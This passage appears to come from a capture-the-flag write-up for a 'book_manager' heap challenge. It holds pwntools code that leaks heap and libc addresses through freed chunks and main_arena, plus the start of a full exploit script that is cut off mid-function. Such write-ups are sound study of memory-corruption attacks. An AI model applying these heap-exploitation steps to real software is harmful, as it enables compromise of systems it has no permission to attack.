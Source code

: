 With the second vulnerability, i was able to leak heap and leak libc through main_arena (unsortedbin):
```python
# leak heap
add(2, 4, b'A') # target
add(2, 4, b'B') # dummy
dele(2) # free dummy
dele(2) # free target
prit(2, 0) # print target's forward pointer
print(io.recvuntil(b'[+] Content: '))
a = io.recv(4)+b'\0\0\0\0'
heap_base = u64(a)- 0x2c0 # calculate the base heap
b = hex(heap_base)
log.info(f'Heap: {b}')
add(2, 4, b'A') # realign heap
add(2, 4, b'B') # realign heap


# leak libc
add(0, 2000, b'AAAA') # target
add(1, 2000, b'BBBB') # dummy to prevent heap collision
dele(0) # free target
prit(0, 0) # print target's <main_arena+96> address
print(io.recvuntil(b'[+] Content: '))
a= io.recv(6)+b'\0\0'
libc_start_main = u64(a)-1854496 # calculate libc_start_main
add(0, 2000, b'AAAA') # realign heap
```

So from the two vulnerability above, we archived arbitrary write

#### Exploit Code
```python
from pwn import *

io = process('./book_manager')
#io = remote('61.28.237.24', 30208)
elf = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def add(book_idx, page_size, content):
    print(io.recvuntil(b'> Your choice: '))
    io.sendline('1')
    print(io.recvuntil(b'[+] Which book you want to add a new page?: '))
    io.sendline(str(book_idx))
    print(io.recvuntil(b'> '))
    io.sendline('1')
    print(io.recvuntil(b'[+] New page size: '))
    io.sendline(str(page_size))
    print(io.recvuntil(b'[+] Enter new content: '))
    io.send(content)

def dup(book_idx, book_to_dup_from, page_to_dup_from):
    print(io.recvuntil(b'> Your choice: '))
    io.sendline('1')
    print(io.recvuntil(b'[+] Which book you want to add a new page?: '))
    io.sendline(str(book_idx))
    print(io.recvuntil(b'> '))
    io.sendline('2')
    print(io.recvuntil(b'[+] Which book you want to copy from?: '))
    io.sendline(str(book_to_dup_from))
    print(io.recvuntil(b'[+] Which page you want to copy from?: '))
    io.sendline(str(page_to_dup_from))

def prit(book_idx, page_idx):
```